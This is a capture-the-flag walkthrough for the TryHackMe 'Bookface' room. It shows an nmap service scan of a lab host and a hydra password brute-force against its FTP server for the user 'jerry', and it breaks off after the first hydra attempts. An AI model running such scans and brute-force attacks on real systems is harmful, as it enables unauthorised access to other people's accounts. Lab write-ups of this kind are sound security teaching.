 ```yaml
---
title: "Bookface"
date: 2020-02-10T14:50:43+01:00
draft: false
tags: ["CTF", "tryhackme"]
---
```


Before we start, read more about following tools & vulnerabilities. It will contains in this CTF
- [hydra](https://www.cyberpunk.rs/password-cracker-thc-hydra)
- [screen](https://www.gnu.org/software/screen/) - [CVE-2017-5618](https://www.cvedetails.com/cve/CVE-2017-5618/)
- [knock](https://linux.die.net/man/1/knock)

and also you can read more about additional security method called [port knocking](https://www.howtogeek.com/442733/how-to-use-port-knocking-on-linux-and-why-you-shouldnt/)

So let's start as usual with __nmap__.
```bash
nmap -F --top-ports 10 -sV 10.10.219.90
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-10 16:37 CET
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 0.00% done
Stats: 0:02:57 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 97.16% done; ETC: 16:40 (0:00:00 remaining)
Nmap scan report for 10.10.219.90
Host is up (0.38s latency).

PORT     STATE  SERVICE        VERSION
21/tcp   open   ftp            vsftpd 2.0.8 or later
22/tcp   closed ssh
23/tcp   open   telnet?
25/tcp   open   smtp?
80/tcp   open   http?
110/tcp  open   pop3?
139/tcp  open   netbios-ssn?
443/tcp  open   https?
445/tcp  open   microsoft-ds?
3389/tcp open   ms-wbt-server?
```

After scan, we can see many ports open, but only from FTP we have grabbed banner *vsftpd 2.0.8 or later*. 
From description of this game we know the developer's name: *Jerry*, so we can try brute force attack to FTP server.

```bash
$ hydra -ljerry -P /usr/share/dict/rockyou.txt ftp://10.10.219.90 -t 16  -vV                                        
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-02-10 16:28:50
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344409 login tries (l:1/p:14344409), ~896526 tries per task   
[DATA] attacking ftp://10.10.219.90:21/                   
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done                                                          
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "" - 1 of 14344409 [child 0] (0/0)                             
[ATTEMPT] target 10.10.219.90 - login "jerry" - pass "     " - 2 of 14344409 [child 1] (0/0)                        
```